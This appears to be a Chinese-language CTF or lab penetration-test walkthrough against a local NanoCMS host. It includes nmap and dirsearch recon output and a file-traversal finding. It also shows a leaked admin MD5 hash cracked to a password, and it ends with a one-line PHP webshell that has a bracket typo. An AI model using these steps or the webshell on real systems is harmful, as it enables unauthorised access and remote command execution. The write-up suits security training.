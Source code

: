 1.
nmap -sn 192.168.2.1/24 快速扫描
发现主机

http://192.168.2.101/

url:
/~andy/ 博客 是个NanoCMS管理系统
/events/ 含登录框，注册框，找会密码框

contact 含留言板 



index.php?page=about 含任意文件遍历漏洞

有用户andy

后台登录页面
/~andy/data/nanoadmin.php

/mail/src/login.php

dirsearch扫描结果：
[00:15:38] 200 -  426B  - /inc/
[00:15:39] 200 -    2KB - /index.php
[00:15:39] 200 -    2KB - /index.php/login/
[00:15:39] 200 -   51KB - /info.php
[00:15:40] 301 -  312B  - /list  ->  http://192.168.2.101/list/
[00:15:40] 301 -  312B  - /mail  ->  http://192.168.2.101/mail/
[00:15:40] 302 -    0B  - /mail/  ->  src/login.php
[00:15:43] 301 -  318B  - /phpmyadmin  ->  http://192.168.2.101/phpmyadmin/
[00:15:43] 200 -    8KB - /phpmyadmin/

phpmyadmin可能存在弱密码爆破危险

info.php 显示php相关配置

list/index.php可以注册

mail/ 邮箱系统为SquirrelMail 


整理一下
/~andy/ 
/mail/
/list/
/events/

通过NanoCMS可以发现存在历史漏洞，敏感信息信息泄露。
后台为data/nanoadmin.php,
data/pagesdata.txt可以发现序列化后的数据。
账号:admin密码:9d2f75377ac0ab991d40c91fd27e52fd
将密码解密后得shannon

登录后发现登录成功,可以任意增删改查文件.
New 一个page，发现创建了一个php文件，所以可以上传webshell


<?php system($_GET['cmd'));?>